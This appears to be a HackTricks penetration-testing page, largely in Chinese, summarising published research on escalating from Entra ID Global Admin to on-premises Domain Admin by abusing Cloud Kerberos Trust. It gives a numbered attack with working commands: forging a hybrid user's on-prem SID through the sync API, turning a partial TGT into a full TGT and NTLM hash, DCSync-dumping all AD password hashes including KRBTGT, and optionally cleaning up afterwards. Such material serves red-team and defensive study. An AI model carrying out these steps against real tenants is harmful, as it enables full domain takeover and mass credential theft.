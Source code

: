 # Az - Cloud Kerberos Trust

{{#include ../../../banners/hacktricks-training.md}}

**本文是** [**https://dirkjanm.io/obtaining-domain-admin-from-azure-ad-via-cloud-kerberos-trust/**](https://dirkjanm.io/obtaining-domain-admin-from-azure-ad-via-cloud-kerberos-trust/) **的总结，可以查看以获取有关攻击的更多信息。此技术在** [**https://www.youtube.com/watch?v=AFay_58QubY**](https://www.youtube.com/watch?v=AFay_58QubY)**中也有评论。**

## Kerberos Trust Relationship Overview

**Cloud Kerberos Trust (Entra ID -> AD)** -- 此功能（Windows Hello for Business的一部分）建立了一种单向信任，其中本地 AD **信任 Entra ID** 为 AD 发放 Kerberos 票证。启用后，会在 AD 中创建一个 **AzureADKerberos$** 计算机对象（显示为只读域控制器）和一个链接的 **`krbtgt_AzureAD`** 账户（一个次级 KRBTGT）。Entra ID 持有这些账户的密钥，并可以为 AD 用户发放“部分” Kerberos TGT。AD 域控制器将尊重这些票证，但具有类似 RODC 的限制：默认情况下，**高权限组（域管理员、企业管理员等）被 *拒绝***，普通用户被允许。这防止了 Entra ID 在正常情况下通过信任对域管理员进行身份验证。然而，正如我们将看到的，具有足够 Entra ID 权限的攻击者可以滥用这种信任设计。

## Pivoting from Entra ID to On-Prem AD

**场景：** 目标组织已为无密码身份验证启用了 **Cloud Kerberos Trust**。攻击者在 Entra ID（Azure AD）中获得了 **全局管理员** 权限，但尚未控制本地 AD。攻击者还在网络上获得了对域控制器的访问（通过 VPN 或混合网络中的 Azure VM）。利用云信任，攻击者可以利用 Azure AD 控制在 AD 中获得 **域管理员** 级别的立足点。

**前提条件：**

-   **Cloud Kerberos Trust** 在混合环境中配置（指示符：AD 中存在一个 `AzureADKerberos$` RODC 账户）。

-   攻击者在 Entra ID 租户中拥有 **全局管理员（或混合身份管理员）** 权限（这些角色可以使用 AD Connect **同步 API** 修改 Azure AD 用户）。

-   至少有一个 **混合用户账户**（在 AD 和 AAD 中都存在），攻击者可以以该账户进行身份验证。这可以通过知道或重置其凭据，或为其分配无密码方法（例如，临时访问通行证）来生成主刷新令牌（PRT）。

-   一个 **本地 AD 目标账户**，具有高权限且不在默认 RODC “拒绝” 策略中。实际上，一个很好的目标是 **AD Connect 同步账户**（通常命名为 **MSOL_***），该账户在 AD 中具有 DCSync（复制）权限，但通常不是内置管理员组的成员。该账户通常不会同步到 Entra ID，使其 SID 可用于无冲突地冒充。

**攻击步骤：**

1.  **获取 Azure AD 同步 API 访问权限：** 使用全局管理员账户，获取 Azure AD **Provisioning (sync) API** 的访问令牌。这可以通过 **ROADtools** 或 **AADInternals** 等工具完成。例如，使用 ROADtools（roadtx）：
```bash
# Using roadtx to get an Azure AD Graph token (no MFA)
roadtx gettokens -u <GlobalAdminUPN> -p <Password> --resource aadgraph
```
*(或者，可以使用 AADInternals 的 `Connect-AADInt` 作为全局管理员进行身份验证。)*

2.  **修改混合用户的本地属性：** 利用 Azure AD **同步 API** 将选定混合用户的 **onPremises 安全标识符 (SID)** 和 **onPremises SAMAccountName** 设置为与目标 AD 账户匹配。这有效地告诉 Azure AD 云用户对应于我们想要冒充的本地账户。使用开源的 **ROADtools Hybrid** 工具包：
```bash
# Example: modify a hybrid user to impersonate the MSOL account
python3 modifyuser.py -u <GlobalAdminUPN> -p <Password>\
--sourceanchor <ImmutableID_of_User>\
--sid <TargetAD_SID> --sam <TargetAD_SAMName>
```
> 用户的 `sourceAnchor`（不可变 ID）用于识别要修改的 Azure AD 对象。该工具将混合用户的本地 SID 和 SAM 账户名称设置为目标的值（例如，MSOL_xxxx 账户的 SID 和 SAM）。Azure AD 通常不允许通过 Graph 修改这些属性（它们是只读的），但同步服务 API 允许这样做，全球管理员可以调用此同步功能。

3.  **从 Azure AD 获取部分 TGT：** 修改后，以混合用户身份对 Azure AD 进行身份验证（例如，通过在设备上获取 PRT 或使用他们的凭据）。当用户登录时（特别是在域加入或 Entra 加入的 Windows 设备上），Azure AD 将为该账户发放 **部分 Kerberos TGT (TGT**<sub>**AD**</sub>)，因为启用了 Cloud Kerberos Trust。此部分 TGT 使用 AzureADKerberos$ RODC 密钥加密，并包含我们设置的 **目标 SID**。我们可以通过 ROADtools 为用户请求 PRT 来模拟这一点：
```bash
roadtx getprt -u <HybridUserUPN> -p <Password> -d <DeviceID_or_Cert>
```
这会输出一个 `.prt` 文件，其中包含部分 TGT 和会话密钥。如果账户是云专用密码，Azure AD 仍然在 PRT 响应中包含 TGT_AD。

4.  **用部分 TGT 交换完整 TGT（在 AD 上）：** 现在可以将部分 TGT 提交给本地域控制器，以获取目标账户的 **完整 TGT**。我们通过对 `krbtgt` 服务（域的主要 TGT 服务）执行 TGS 请求来实现这一点——本质上是将票证升级为具有完整 PAC 的正常 TGT。可以使用工具来自动化此交换。例如，使用 ROADtools Hybrid 的脚本：
```bash
# Use the partial TGT from the PRT file to get a full TGT and NTLM hash
python3 partialtofulltgt.py -p roadtx.prt -o full_tgt.ccache --extract-hash
```
这个脚本（或 Impacket 等效项）将联系域控制器并为目标 AD 账户检索有效的 TGT，包括如果使用了特殊的 Kerberos 扩展，则该账户的 NTLM 哈希。**`KERB-KEY-LIST-REQ`** 扩展会自动包含，以请求 DC 在加密回复中返回目标账户的 NTLM 哈希。结果是一个凭证缓存（`full_tgt.ccache`），用于目标账户 *或* 恢复的 NTLM 密码哈希。

5.  **模拟目标并提升为域管理员：** 现在攻击者有效地 **控制了目标 AD 账户**。例如，如果目标是 AD Connect **MSOL 账户**，它在目录上具有复制权限。攻击者可以使用该账户的凭证或 Kerberos TGT 执行 **DCSync** 攻击，从 AD 中转储密码哈希（包括域 KRBTGT 账户）。例如：
```bash
# Using impacket's secretsdump to DCSync as the MSOL account (using NTLM hash)
secretsdump.py 'AD_DOMAIN/<TargetSAM>$@<DC_IP>' -hashes :<NTLM_hash> LOCAL
```
这会转储所有 AD 用户密码哈希，给攻击者 KRBTGT 哈希（让他们可以随意伪造域 Kerberos 票证）并有效地获得对 AD 的 **域管理员** 权限。如果目标账户是另一个特权用户，攻击者可以使用完整的 TGT 以该用户的身份访问任何域资源。

6.  **清理：** 可选地，攻击者可以通过相同的 API 恢复被修改的 Azure AD 用户的原始 `onPremisesSAMAccountName` 和 SID，或简单地删除任何创建的临时用户。在许多情况下，下一个 Azure AD Connect 同步周期将自动还原同步属性上的未经授权的更改。（然而，到那时损害已经造成——攻击者已获得 DA 权限。）

> [!WARNING]
> 通过滥用云信任和同步机制，Azure AD 的全局管理员可以冒充几乎 *任何* 没有被 RODC 策略明确保护的 AD 账户，即使该账户从未进行过云同步。在默认配置下，这 **建立了从 Azure AD 破坏到本地 AD 破坏的完全信任**。

## 参考文献

- [通过云 Kerberos 信任从 Azure AD 获取域管理员](https://dirkjanm.io/obtaining-domain-admin-from-azure-ad-via-cloud-kerberos-trust/)

{{#include ../../../banners/hacktricks-training.md}}
